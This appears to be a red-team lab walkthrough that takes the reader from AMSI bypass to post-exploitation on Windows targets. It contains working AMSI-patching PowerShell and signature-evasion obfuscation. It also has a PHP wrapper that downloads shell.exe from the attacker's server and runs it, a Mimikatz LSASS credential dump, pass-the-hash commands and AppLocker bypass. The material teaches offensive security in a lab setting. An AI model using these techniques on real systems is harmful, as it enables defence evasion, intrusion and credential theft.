This may seem like a lot of fancy and chopped-up code if you are unfamiliar  with Windows architecture and PowerShell, but we can break it up and  identify what each section of code does.


The first section of code lines 3 - 10 will use C# to call-in  functions from Kernel32 to identify where amsi.dll has been loaded.

```
[DllImport(`"kernel32`")]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName); 

[DllImport(`"kernel32`")]
public static extern IntPtr GetModuleHandle(string lpModuleName);

[DllImport(`"kernel32`")]
public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
```

Once the C# functions are called in, the code will use Add-type to load the C# and identify the `AmsiScanBuffer` string in lines 13 - 16. This string can be used to determine where `amsi.dll` has been loaded and the address location using `GetProcAddress`.

```
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$ABSD = 'AmsiS'+'canBuffer';
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $ABSD);
```

The next section of code lines 17 - 23 will modify memory permissions and patch `amsi.dll` to return a specified value.

```
[UInt32]$Size = 0x5;
[UInt32]$Size = 0x5;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

At this stage, we should have an AMSI bypass that partially works.  Signatures for most AMSI bypasses have been crafted, so this means that  AMSI and Defender themselves will catch these bypasses. This means we  will need to obfuscate our code a slight bit to evade signatures. AMSI  obfuscation will be covered in the next task.

For more information about AMSI bypasses, check out the following resources.

- https://offensivedefence.co.uk/posts/making-amsi-jump/
- https://i.blackhat.com/briefings/asia/2018/asia-18-Tal-Liberman-Documenting-the-Undocumented-The-Rise-and-Fall-of-AMSI.pdf
- https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell
- https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/amsi_patch_bin.nim
- https://blog.f-secure.com/hunting-for-amsi-bypasses/
- https://www.contextis.com/us/blog/amsi-bypass
- https://www.redteam.cafe/red-team/powershell/using-reflection-for-amsi-bypass
- https://amsi.fail/
- https://rastamouse.me/blog/asb-bypass-pt2/
- https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html
- https://www.youtube.com/watch?v=F_BvtXzH4a4
- https://www.youtube.com/watch?v=lP2KF7_Kwxk
- https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/

# AV Evasion AMSIception                            

Now that we have a  partially working bypass, we need to obfuscate the code to bypass  detections. I know, AMSIception... There are several tools and articles  that can help us out in this process to understand the process and  requirements better. It is helpful to think of obfuscation as an art  rather than a technique. It can be experimentative and repetitive as you modify and tamper with source code and signatures.

To begin our obfuscation journey, we will start with manual  obfuscation along with signature checking scripts. In the next task, we  will cover automated obfuscators like Invoke-Obfuscation and  ISE-Steroids. The manual route is far more reliable compared to  automated obfuscators as you are checking and tampering with each  signature within your sample, in this case, an AMSI bypass.

Generally, AMSI is only looking for weak strings for AMSI bypasses such as `AmsiScanBuffer`, `amsiInitFailed`, `AmsiUtils`, etc. This is where string concatenation can come into play and aid in breaking these string signatures. As EDR solutions and products progress, these signatures and methods may  become more robust. Still, these identical signatures have been  prevalent for a reasonable amount of time and aren't expected to be  changing any time soon for non-commercial products.

To aid in our obfuscation efforts, we will use the AMSITrigger script, https://github.com/RythmStick/AMSITrigger, written by RythmStick. This script will take a given PowerShell script  and each unique string within it against AMSI to identify what strings  are being used to flag the script as malicious. This will only test  against AMSI and not Defender; we will go over obfuscating for Defender  in a later task; however, for this task, we only need to worry about  AMSI since everything is file-less (mostly).

AMSI will also utilize regex to aggregate risk assessment; this means that no one individual string might be flagged rather an entire code  block. This can be painful for us to obfuscate and require other  techniques like encoding, type acceleration, and run-time decoding.

To use AMSITrigger, we only need to specify two parameters, `-u`, `—url` or `-i`, `—inputfile` and `-f`, `—format`. Find example syntax below.

Syntax: `.\\AMSITrigger.exe -u <URL> -f 1` or `.\\AMSITrigger.exe -i <file> -f 1`


Running the script against the AMSI bypass from BC-Security shown in the previous task, we see that the `VirtualProtect` code block was flagged along with the run-time buffer.

We can also use format 3 to see inline with the code with precisely what is being flagged.


The first method of manual obfuscation we will look at is string  concatenation. From the Microsoft documentation, "Concatenation is the  process of appending one string to the end of another string. You  concatenate strings by using the + operator. For string literals and  string constants, concatenation occurs at compile-time; no run-time  concatenation occurs. For string variables, concatenation occurs only at run time." Concatenation is a fairly common technique used within most  programming languages; however, we can abuse it to aid us in  obfuscation. Find an example of string concatenation below.

```
$OBF = 'Ob' + 'fu' + 's' +'cation'
```

There are several various methods of string concatenation and other  techniques that we can use to break signatures. Find an outline of the  different methods below.

- Concatenate - `('co'+'ffe'+'e')`
- Reorder - `('{1}{0}'-f'ffee','co')`
- Whitespace - `( 'co' +'fee' + 'e')`

String manipulation usually will help break single-string weak  signatures; as previously explained, AMSI can also use regex to  aggregate risk assessment. We will need to use more advanced techniques  like encoding and type acceleration in regex signatures found below.

The second method of manual obfuscation we will look at is type  acceleration. From the Microsoft documentation, "Type accelerators are  aliases for .NET framework classes. They allow you to access specific  .NET framework classes without having to type the full class name  explicitly. For example, you can shorten the `AliasAttribute` class from `[System.Management.Automation.AliasAttribute]` to `[Alias]`." https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_type_accelerators?view=powershell-7.1

We can abuse type accelerators to modify malicious types and break the  signatures of types. For example, you can use PowerShell to create your  own `PSObject` and type accelerator to be used in place of the malicious type and, in turn, break the AMSI signature.

This may seem like an intimidating topic at first, but we can break it down  into two lines of code to make it easier to understand.

To create a type accelerator, we will need to first declare a `PSObject` in Assembly to retrieve the type.

```
[PSObject].Assembly.GetType
```

We will then need to add our malicious type to `System.Management.Automation.TypeAccelerators`. This will allow us to use the type accelerator as a separate type from the malicious type. Find example code below.

```
("System.Management.Automation.TypeAccelerators")::Add('dorkstork', [system.runtime.interopservices.marshal])
```

We can combine these two code snippets to create a final `PSObject` containing the newly created type.

```
[PSObject].Assembly.GetType("System.Management.Automation.TypeAccelerators")::Add('dorsktork', [system.runtime.interopservices.marshal])
```

We can then replace the `PSObject` at the location of the malicious type. Find a comparison of the new and old code below.

Old: `[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);`

New: `[dorkstork]::copy($buf, 0, $BufferAddress, 6);`

Now we have a newly created type accelerator that will break the signature attached to it.

For more information about creating type accelerators within PowerShell, check out this blog, https://community.idera.com/database-tools/powershell/powertips/b/tips/posts/adding-new-type-accelerators-in-powershell

(https://community.idera.com/database-tools/powershell/powertips/b/tips/posts/adding-new-type-accelerators-in-powershell)

To entirely obfuscate our code and ensure our bypass works, we can combine the two techniques shown. In addition, you can rerun AMSITrigger as  needed to help identify broken signatures and other signatures not yet  broken.

At this point, you should now have a working  AMSI bypass. You can now move on to obfuscating and modifying our grunt  and launcher itself to evade AV.

For more information about manual obfuscation and AMSI obfuscation, check out the following resources.

- https://amsi.fail/
- https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/
- https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html
- https://www.youtube.com/watch?v=lP2KF7_Kwxk
- https://www.youtube.com/watch?v=F_BvtXzH4a4

# AV Evasion JU57 0BFU$C47E 1T                            

Now that we have bypassed AMSI, we need to obfuscate and modify our  launcher and grunt code to evade anti-virus. We will begin by  understanding the basics of using automated obfuscators like  Invoke-Obfuscation and ISE-Steroids to perform advanced string and  signature manipulation.

We again recommend using a development virtual machine to test and edit code.

Invoke-Obfuscation, https://github.com/danielbohannon/Invoke-Obfuscation, is a utility built by Daniel Bohannon and Cobbr. It is used to take a  series of arguments/obfuscation tokens and automatically obfuscate  provided code. From their GitHub, "Invoke-Obfuscation is a PowerShell  v2.0+ compatible PowerShell command and script obfuscator.". Red teamers can use obfuscation to make reverse engineering/analysis harder and, in some cases, bypass anti-virus and other detections.

Invoke-Obfuscation syntax can seem very large and scary at first if you don't understand  how it breaks down the obfuscation tokens. We can follow along with this guide created by the author of Invoke-Obfuscation to get familiar with  the syntax https://www.danielbohannon.com/blog-1/2017/12/2/the-invoke-obfuscation-usage-guide.

To begin our obfuscation attempts, we will need to set the script  block or the payload we want to obfuscate and then specify tokens to  use. Invoke-Obfuscation offers both an argument parsing command-line  tool as well as a friendly CLI. For our purposes, we will be using the  command line. We will only be covering an example of using a token to  bypass anti-virus, creating a token command, and the various use cases  are out of scope for this task.

Below is the command we will use to obfuscate our payload. The token  command used at the time of writing will bypass anti-virus for some  payloads or tools. We will be breaking this command down later in this  task.

```
Invoke-Obfuscation -ScriptBlock {'Payload Here'} -Command 'Token\\String\\1,2,\\Whitespace\\1' -Quiet -NoExit
```

To begin breaking down the command, we will first look at the arguments passed to the tool. The `ScriptBlock` argument will parse your payload or code used to be obfuscated. The two arguments at the end of the command `-Quiet` and `-NoExit` will produce minimal verbosity and prevent exiting from the CLI when the command is run.

The token used can be found by itself below, along with an explanation of what the token is doing.

```
Token\\String\\1,2,\\Whitespace\\1
```

To begin understanding the syntax, we need to understand the tree  structure of Invoke-Obfuscation itself. The CLI helps with this and can  break down each syntax tree in the overall syntax.

The first initial tree in this syntax is `Token\\String\\1,2,\\` this means it will both concatenate and reorder characters in a string. We can get this information from the CLI syntax tree found below.


We can see both of the types of string obfuscation broken down, and examples are given.

1. `TOKEN\\STRING\\1` - ('co'+'ffe'+'e')
2. `TOKEN\\STRING\\2` - ('{1}{0}'-f'ffee','co')

The token command will also use a second syntax tree, this time obfuscating using whitespace in `Token\\Whitespace\\1`. We can again get this information from the CLI syntax tree found below.


We can see that the obfuscation technique will randomly add whitespace to  the provided strings and payload, along with an example of how it is  used.

1. `TOKEN\\WHITESPACE\\1` - ( 'co' +'fee' + 'e')

When creating a token command, you will need to be careful not to obfuscate  the payload too much and exceed the 8191 character limit in a Windows  command prompt. For more information about character limitation look at  the Microsoft documentation, https://docs.microsoft.com/en-us/troubleshoot/windows-client/shell-experience/command-line-string-limitation

If obfuscated efficiently, you should now have a successful PowerShell  payload that will bypass anti-virus and make reverse engineering harder. Before executing on a production environment, you should always  experiment and test on your development server to ensure that everything goes smoothly during the actual production engagement.

In the next task, we will cover what you can do when obfuscation  fails, or you need to use something that isn't purely written in  PowerShell by utilizing code review and ThreatCheck/DefenderCheck.

# AV Evasion 'Ca' + 'n' + 'you' + ' ' + 'see' + 'me now' + '?'                            

Up to this point, we should have a working PoC payload and grunt. However, in many cases, the basic steps of bypassing AMSI and obfuscating code may not work. In this case, we will need to  use other tools and techniques to manually identify bad bytes within the code and review the code to break signatures to get the code past AMSI  and Defender cleanly.

As new EDR solutions and prevention methods are released, we as red teamers need  to change and evolve our TTPs to work around the ever-growing blue team. Often, techniques themselves don't change, but scripts and solutions  like https://github.com/IonizeCbr/AmsiPatchDetection and indicators can make it harder to get our payloads and tools past even  when bypassed and obfuscated, or we have other restrictions in place we  need to workaround. In this case, we can use code analysis and manual  code review to break signatures. A few tools can help us along the way  for code analysis, including ThreatCheck, https://github.com/rasta-mouse/ThreatCheck, and DefenderCheck, https://github.com/matterpreter/DefenderCheck. Both of these tools will ingest a given file and output the found bytes attached to signatures.

We again recommend using a development virtual machine to test and edit code.

As covered in Task 7, you will need to build Threat Check using a Visual Studio solution file. It is important to note that Threat  Check uses multiple NuGet packages; ensure your development machine has  internet access to retrieve these packages. The build process will  produce an application file, a DLL file, and an XML file. You will need all three files in the same directory for ThreatCheck to work. Files will be built to `ThreatCheck-master\\ThreatCheck\\ThreatCheck\\bin\\Debug`.


ThreatCheck has a small argument list, and syntax is relatively straightforward.  Find a list of arguments and a syntax example below.

- `-e` or `—engine` (AMSI or Defender)
- `-f` or `—file`
- `-u` or `—url`

Syntax: `ThreatCheck.exe -f <file>`

In  this task, we will be focusing on analyzing the Covenant source code;  however, ThreatCheck can be used on any tools or payloads you need to  clean.

Below you will find an example of the first bad byte that  ThreatCheck will discover. ThreatCheck will aggregate bytes based on  their signature strength, the lowest being the strongest signature and  what you should prioritize breaking.


To aid us in breaking up the Covenant signature, we will follow this guide written by RastaMouse, https://offensivedefence.co.uk/posts/covenant-profiles-templates/.

Looking through the output of ThreatCheck, we notice a `WebProxy` along with an `http://192.168.227.139:80`. We can assume it is attached to the listener from these signatures  rather than the grunt code itself. To break this signature, we can  create a custom listener profile or edit the current HTTP profile.

Thanks to prior research from RastaMouse, we know that you will need to add an HTTP response header to break the signature. If you were going into this  blind, you would need to experiment with settings and code to identify  where the engine is attaching and what you can do to break it. Add the  below line to your listener profile under `Listeners > Profiles > CustomHttpProfile`.


Once added, we can build our agent again and test against ThreatCheck again.


The output above has two signatures attached. Use your knowledge of HTTP requests and responses to break the signature.

You will also notice a `GUID Type` signature. Use your knowledge of C# from Task 6 along with RastaMouse's guide to break this signature and create a clean grunt.

You will have to repeat this process of going back and forth between  ThreatCheck and the source code until you have a clean agent that evades detections.

If successful, you will now have a clean tool or payload that evades Defender.

# AV Evasion Wrapping the burrito                            

Now that we have a working executable that can bypass  anti-virus, we need a way to execute it. We know that web servers cannot execute applications, so we will need to write a PHP wrapper to download and execute our code for us.

We will be using a template payload/wrapper that we can use to deploy PowerShell commands on the remote server for this task. This will allow us to download and execute our malicious application. Find the source  code for the template below.

```php
<?php
  function compile_stager() {
    $init = "powershell.exe";
    $payload = ""; // Insert PowerShell payload here
    $execution_command = "shell_exec";
    $query = $execution_command("$init $payload");
    echo $query; // Execute query
  } 

  compile_stager();
?>
```

The above wrapper takes advantage of the `shell_exec` command to open a process on the server and execute commands as the  webserver. Of course, this will only work if you can execute privileges  on the system.

You can decide to either upload an exe grunt or create a ps1 grunt either will work with the template.

To download our malicious grunt we can set up an HTTP server on our attacking machine using python, updog, etc and use `iex` or `Invoke-WebRequest` to make a remote call to our server. Find the download payload below.

To download our malicious grunt, we can set up an HTTP server on our attacking machine using python, updog, etc and use `iex` or `Invoke-WebRequest` to make a remote call to our server. Find the download payload below.

```
Invoke-WebRequest 127.0.0.1:8000/shell.exe -outfile notashell.exe
```

To implement this payload, you will need to change the address and port to your attacking machine. You may also want to begin by identifying the  webserver's root directory to identify where you can and cannot execute  the file, such as if AppLocker or other solutions are employed on the  server.

After we have downloaded the file, we will want to execute it using PowerShell. First, find the execution payload below.

```
.\notashell.exe` or `cmd /c .\notashell.exe
```

We can put together all payloads into the wrapper to complete our PHP payload. Find the final PHP code below.

```php
<?php
  function get_stager() {
    $init = "powershell.exe";
    $payload = "Invoke-WebRequest 127.0.0.1:8000/shell.exe -outfile notashell.exe"; // Insert PowerShell payload here
    $execution_command = "shell_exec";
    $query = $execution_command("$init $payload");
    echo $query; // Execute query
  }
 function execute_stager() {
  $init = "powershell.exe";
    $payload = ".\notashell.exe"; // Insert PowerShell payload here
    $execution_command = "shell_exec";
    $query = $execution_command("$init $payload");
    echo $query; // Execute query
 }
  get_stager();
  execute_stager();
  die();
?>
```

We now have a working PHP shell that operates with Covenant. You can find the source code on GitHub, https://github.com/Cryilllic/PHP-PowerShell/tree/main.

# Post Exploitation That's not a cat that's a dawg                            

Now that we have administrator access to the machine, we can follow  our post-exploitation methodology and dump credentials. To aid us in  dumping credentials, we will be using the infamous tool Mimikatz. We  will also be utilizing Covenant to drop Mimikatz.

Mimikatz is a well-known tool for a variety of post-exploitation activities. We  will be using it to dump credentials from LSASS. [T1003](https://attack.mitre.org/techniques/T1003/001/) From MITRE ATT&CK. Described from ATT&CK as "Adversaries may attempt to  access credential material stored in the process memory of the Local  Security Authority Subsystem Service (LSASS). After a user logs on, the  system generates and stores various credential materials in LSASS  process memory. These credential materials can be harvested by an  administrative user or SYSTEM and used to conduct Lateral Movement using Use Alternate Authentication Material."

To run Mimikatz, we can use Covenant to drop the binary. Covenant has a task for Mimikatz; however, it is outdated and does not work on  modern Windows systems, so we will need to compile or download our  binary to use.

We can upload a Mimikatz binary using the `Upload` task and obtain a binary from the releases page https://github.com/gentilkiwi/mimikatz/releases/ or compile the project yourself. Covenant will present you with a pop-up  window to drop the file onto, and Covenant will host the file for you  and upload the file to the server. Find an example of the window below.


To ensure a successful upload, you will need to specify where the file is  to be uploaded on the target and the file's location on your attacking  machine. Find an example of file path syntax below.


Once the file is uploaded, we can use the `Shell` task to execute the binary. Since Mimikatz has its own CLI, you will  need to send all commands to be run within Mimikatz in one command so  that Covenant can interpret it.

------

Now that we have Mimikatz  executing on the system, we can look through its modules and syntax.  Find an outline of a few Mimikatz modules below.

- `standard`
- `privilege`
- `crypto`
- `sekurlsa`
- `kerberos`
- `lsadump`
- `vault`
- and more

For this task, we will be focusing on the `privilege`, `token`, and `sekurlsa` modules. Within each of these modules, a number of commands can be used to perform various operations. For more information about all the  features of Mimikatz, check out the GitHub wiki, https://github.com/gentilkiwi/mimikatz/wiki.

The first module we will be looking at is `privilege`, from this module, we will use the `privilege::debug` command. This command will allow us to ensure that Mimikatz is running  at the proper privilege levels before performing any operations.

The second module we will be looking at is `token`, from this module, we will use the `token::elevate` command. This command will perform token impersonation to gain elevated integrity on the system. Token elevation is not always necessary but  can help to troubleshoot when Mimikatz is struggling to dump  credentials.

The third module we will be looking at is `sekurlsa`, this module will contain a majority of the commands to interact with and abuse LSASS. From this module, we will be using the `sekurlsa::logonpasswords`. This command will dump the credentials of accounts already authenticated to the endpoint. We can also use the command `lsadump::lsa`, which has a similar function but will dump LSASS credentials from memory.

We can put all of these commands together to make a final Mimikatz command that we can use in Covenant. If using this tool normally, you could  send each one of these commands separately, but we have to send them a  little bit differently because we are using Covenant. Find example  syntax below for Mimikatz.

Syntax: `.\Mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" exit`

It is important that you exit Mimikatz, or your shell task will never complete.

We should now have a working method to dump credentials on the endpoint.

# Post Exploitation Good Intentions, Courtesy of Microsoft: Part II                            

If cracking the hash fails, we always know that there is a  backup when operating in Windows. Windows allows functionality to pass a hash to WinRM and RDP to enable authentication. This gives us as attackers an advantage,  getting rid of the need to crack hashes. This attack is known as  pass-the-hash.

Pass the hash (PtH) is an attack wherein we can leverage found NTLM  or LanMan hashes of user passwords to authenticate the user they belong  to. This is possible due to the well-intentioned security 'feature'  within Windows, where passwords are hashed predictably before being sent over the network. Done originally with the intent of avoiding password  disclosure, we can leverage this feature to capture and replay hashes,  allowing us to authenticate as our victim users.

To aid us in passing the hash, we can use crackmapexec and Evil-WinRM.

The first tool we will be looking at is crackmapexec, 

https://github.com/byt3bl33d3r/CrackMapExec. From the crackmapexec GitHub, "CrackMapExec (a.k.a CME) is a  post-exploitation tool that helps automate assessing the security of  large Active Directory networks. Built with stealth in mind, CME follows the concept of "Living off the Land": abusing built-in Active Directory features/protocols to achieve its functionality and allowing it to  evade most endpoint protection/IDS/IPS solutions." We will be using only one of the many features of CME. We can pass the hash over SMB, SSH,  WinRM, LDAP, or MSSQL; we recommend using SMB.


We will be deploying CME across the entire CIDR subnet to identify  endpoints in which the credentials successfully authenticate. Find  syntax usage for CME below.

Syntax: `crackmapexec smb 10.200.x.0/24 -u <user> -d <domain> -H <hash>`

Above you will see crackmapexec output over proxy chains. Crackmapexec can  take a decent amount of time when operating over proxy chains.

For more information about crackmapexec check out the GitHub wiki, https://github.com/byt3bl33d3r/CrackMapExec/wiki.

------

The second tool we will be looking at is Evil-WinRM, https://github.com/Hackplayers/evil-winrm. This tool will abuse the WinRM protocol to communicate to a remote  endpoint. From the Evil-WinRM GitHub "WinRM (Windows Remote Management)  is the Microsoft implementation of WS-Management Protocol. A standard  SOAP-based protocol that allows hardware and operating systems from  different vendors to interoperate. Microsoft included it in their  Operating Systems to make life easier to system administrators." Thus,  we can use our previously found endpoint and our hash and username to  authenticate to the server and gain remote access successfully.

The easiest way to install Evil-WinRM is to install from the gem package  manager, as the tool is built in Ruby. Find the command to install  Evil-WinRM below.

Command: `gem install evil-winrm`

After the installation, it is relatively simple to use Evil-WinRM as it operates similarly to other RDP or SSH clients. Find the Evil-WinRM syntax below.

Syntax: `evil-winrm -i <address> -u <user> -H <hash>`

If successfully authenticated, you should now have a working WinRM shell that you can use to execute remote commands.

# Post Exploitation Watson left her locker open

After landing on PC-FILESRV01 and attempting to perform situational  awareness, you may notice that you get an error when executing  applications. This is due to whitelist application controls set on the  server. We will be covering what AppLocker is and how it can be bypassed within this task.

From the Microsoft Docs, "Application control policies specify which  programs are allowed to run on the local computer. AppLocker can be part of your application control strategy because you can control what  software is allowed to run on your computers." In a brief summary of the Microsoft Docs, AppLocker is a set of Windows application control  policies that can be used to restrict access to various sections of a  device or multiple devices across a domain. To learn more about  AppLocker, check out the Microsoft documentation https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/applocker-overview.

Whenever AppLocker blocks a program from running, you will encounter the error: *This program is blocked by group policy. For more information, contact your system administrator.* AppLocker will also send an event via ETW to the event log.

To begin understanding AppLocker, we need to identify its structure and implementation in Windows.

AppLocker doesn't take shape; it is just a policy similar to a  company password policy or timeout policy that runs in the background  and takes minimal action when needed. AppLocker consists of a set of  rules that can be defaults, automatically generated, or a custom set of  rules. These rules will typically be denying or allowing access to  specific directories or sets of directories. Rules can also offer  granular access control to specify which users can access what and which rules apply to what users.

The policy configuration for AppLocker is located in `secpol.msc` or the local security policy editor. This can also be the group policy  editor if changing AppLocker to deploy in a domain context. The policy  is located under *Application Control Policies*.


From the above screenshot, you will notice four rule types. Each rule type is outlined below.

- `Executable Rules` Determines what executables and applications can be run from specified directories.
- `Windows Installer Rules` Determines what Installers can be run
- `Script Rules` Determines what and where scripts can be run
- `Packaged app Rules` Determines what pre-packaged Windows applications can be run

Below is the default rule list created by AppLocker.

The default rule set will allow every user to execute applications from the *Program Files* and *Windows* directory and enable Administrators to execute all files.


System Administrators can create and edit rules that AppLocker  will enforce. The wizard is straightforward to use and can allow  administrators to push rules remotely to all servers in the domain.


The above allow rule will allow everyone to access the *Program Files* directory.

------

The idea behind bypassing AppLocker is to abuse misconfigurations within  the rule sets themselves. Several default directories have execute  permissions along with a few scripts and cheat sheets that you can use  to aid you in abusing AppLocker.

There are a few other ways to bypass AppLocker including,

- Signed/verified packages and binaries (LOLBAS)
- PowerShell downgrade
- Alternate Data Streams

For a complete list of default directories to bypass AppLocker along with other techniques, check out this GitHub repo https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md.

It is important to note that in terms of noise within a network, a default directory is favored; however, blue teams may use other detection rules to monitor directories known to be abused. It is up to you to decide  your objectives and what attack to use when dealing with AppLocker.


To aid us in quickly identify directories we can use to execute programs; we can use an AppLocker directory check script https://github.com/HackLikeAPornstar/GibsonBird/blob/master/chapter4/applocker-bypas-checker.ps1.


This script will automatically check for execution permissions on all known  directories within the system. This can be helpful when dealing with a  custom ruleset and other mitigations.


System Administrators will often not restrict PowerShell scripts, or you can directly run the script from the command line. Therefore,  you will need to adjust how you approach running this script depending  on the system. Find an example output below.


Directories and execution permissions will change based on the AppLocker policies.  Therefore, this is not how the output of the script will always look.


Once we have identified a directory with execution permissions  from manual enumeration or the PowerShell script, we can place a  malicious binary such as our Covenant launcher within the directory and  execute the binary.

# Situational Awareness So it's just fancy malware?                            

Now that we have a user account on PC-FILESRV01 and a directory that we can use to execute from, we can begin situational awareness.  Like Linux situational awareness, Windows situational awareness means  understanding the system you have landed on and what is available to  you. In the following four tasks, we will be covering: AV enumeration,  user and system enumeration, privilege escalation enumeration, and  common escalations. In this task, we will be covering AV enumeration.  Various teams may approach situational awareness, but we will be  showcasing our preferred methodology and tools.

To begin assessing what tools may be most useful when attacking a system, you can start by attempting to enumerate what AV and detection methods are in place. It is essential to enumerate  detections on an endpoint as this will allow you to determine your  attack surface accessible.

------

The first tool we will be looking at is Seatbelt, https://github.com/GhostPack/Seatbelt. From the Seatbelt GitHub,"Seatbelt is a C# project that performs a  number of security-oriented host-survey "safety checks" relevant from  both offensive and defensive security perspectives." As covered in Task  7, you will need to build Seatbelt using a Visual Studio solution file.  The build process will produce an application file, an XML file, and a PDB file. The application file is the only file needed for Seatbelt to run. Files will be built to `Seatbelt-master\Seatbelt-master\Seatbelt\bin\Debug`

We can use a combination of seven commands within Seatbelt to begin  to identify counter-measures. We will be covering Seatbelt further  in-depth in a later task. Find an outline of commands used below.

- `AMSIProviders` Providers registered for AMSI
- `AntiVirus` Registered antivirus (via WMI)
- `Sysmon` Sysmon configuration from the registry
- `WindowsDefender` Windows Defender settings (including exclusion locations)
- `WindowsEventForwarding` Windows Event Forwarding (WEF) settings via the registry
- `McAfeeConfigs` Finds McAfee configuration files
- `InterestingProcesses` "Interesting" processes - defensive products and admin tools

The usage behind these commands may vary depending on the  permission levels of the endpoint; however, you can expect a small  amount of information to be gathered from them to help identify AV products. Find syntax for Seatbelt below.

Syntax: `Seatbelt.exe —group=system`

A majority of the commands used above can also be used  remotely. This means we will not have to worry about AMSI or Defender as they operate from WMI queries. Find remote syntax for Seatbelt below.

Syntax: `Seatbelt.exe -group=remote -computername=<address> -username=<DOMAIN\user> -password=<password`

You can find examples of command output indicating AV detections on an endpoint below.


------

The second tool we will be looking at is SharpEDRChecker, https://github.com/PwnDexter/SharpEDRChecker.

From the SharpEDRChecker GitHub "SharpEDRChecker, checks running processes,  process metadata, DLLs loaded into your current process and the each  DLLs metadata, common install directories, installed services and each  service binaries metadata, installed drivers and each drivers metadata,  all for the presence of known defensive products such as AV's, EDR's and logging tools."

This means that we can identify more advanced forms of anti-virus and detection agents that Seatbelt or other tools  may not be able to locate using their methods. For example, Carbon  Black, Tanium, or Crowd Strike; these solution platforms can deploy  agents onto an endpoint custom to the organization similar to a  malicious payload (basically malware, right?)

Below we will go into each of the functions of SharpEDRChecker and how they can benefit us in situational awareness.

- `FileChecker` This function of the tool is what really  separates it from other tools. It will check the metadata of the file  that cannot be changed as it will invalidate code signing and break  other aspects of the file.
- `ProcessChecker` Similar function to Seatbelt's `InterestingProcesses`, The first part of this module will inspect all processes. The second  part of the module will check for DLLs loaded by processes, this is  important for identifying products such as Cylance and AMSI.
- `ServiceChecker` Inspects installed services, a similar function to `ProcessChecker`.
- `DriverChecker` Performs checks on all drivers using `P/Invoke`.
- `DirectoryChecker` Dumps all interesting subdirectories on common directories (Program Files, ProgramData, etc.)

To begin using SharpEDRChecker, you can either download a pre-compiled  release from GitHub or compile from source using the solution file. For  more information about compiling, return to Task 7. Find releases here, https://github.com/PwnDexter/SharpEDRChecker/releases/tag/1.1.

Find syntax and example output from SharpEDRChecker below.


Syntax: `.\SharpEDRChecker.exe`


From the above screenshot, we can see that this tool gives us a much more  detailed output than Seatbelt, which is a lot more focused and offers  more insight than Seatbelt and other tools.

For more information about SharpEDRChecker, check out this blog, https://redteaming.co.uk/2021/03/18/sharpedrchecker/.

Depending on the approach you decide to take, you may have to return to Task 27-31 to pass the tools through anti-virus.


This step of situational awareness can also be done before or  after gaining root access depending on how you want to approach it, or  it can be skipped entirely depending on your target.

# Situational Awareness SEATBELT CHECK!

Now that we understand the system's detection measures and what we  can and can't do in our attack surface, we can begin moving on to system enumeration. This type of enumeration can help us identify the  endpoint's surface better and potential areas for privilege escalation.  To allow us to enumerate the endpoint, we will again be utilizing  Seatbelt.

As previously mentioned, Seatbelt is an enumeration tool that will  perform many system checks and provide information on an endpoint. This  time we will be using all of the modules that Seatbelt has to offer.

Find a quick overview of some of the essential modules below.

- `DotNet` Retrieves .NET version
- `LocalGPOs` Finds local group policies applied to machine and local users
- `LocalGroups` Lists non-empty local groups
- `NetworkShares` Lists exposed network shares
- `PowerShell` Retrieves PowerShell version and security settings
- `Processes` Lists running processes
- `TokenPrivileges` Lists enabled token privileges (SeDebug)
- `CredEnum` Lists current user's saved credentials
- `InterestingFiles` Interesting files matching patterns in user folder
- `ScheduledTasks` Scheduled tasks not authored by Microsoft.

Some of the above tasks will require privileges or a desktop session  to run. Using Seatbelt for low privileged awareness uses the basic  information you can get to identify the system surface.

These are not nearly all of the modules that Seatbelt has to offer. For more  information about all of the modules Seatbelt offers, check out the  GitHub readme, https://github.com/GhostPack/Seatbelt#command-groups


Find syntax and an example of output below.

Syntax: `.\Seatbelt.exe all`


We can also run Seatbelt from Covenant using the Seatbelt module found below.

Module: `Seatbelt`

You will notice that Seatbelt produces a large amount of output. It can be  helpful to save this output to a file to comb through later. You will  have to spend a little bit of time searching through the output to get  all the information you need on the endpoint.


For more information about Seatbelt, check out the Seatbelt GitHub page, https://github.com/GhostPack/Seatbelt#table-of-contents.

# Situational Awareness ALL THE POWER!                            

Now that we understand detections and system surface on the endpoint, we can begin looking at the user and groups of the system. This step of situational awareness can allow us to find privileges and user  connections for future horizontal movement or privilege escalation.

The first tool we will be looking at is PowerView, https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon. This tool is no longer supported but is still considered a standard for enumeration. From the PowerSploit GitHub, "PowerView is a PowerShell  tool to gain network situational awareness on Windows domains. It  contains a set of pure-PowerShell replacements for various windows "net  *" commands, which utilize PowerShell AD hooks and underlying Win32 API  functions to perform useful Windows domain functionality."

To use the script, we will first need to import it then run the  commands that we want to enumerate the endpoint. Find syntax and a few  essential commands you can use with PowerView.

Syntax: `Import-Module .\PowerView.ps1`

We can now run all of the commands that PowerView offers. In this  task, we will be focusing on enumerating the local user and group policy surface. In the next task, we will use native PowerShell to enumerate  the active directory surface. Outlined below is a list of commands we  will cover in this task.

- `Get-NetLocalGroup`
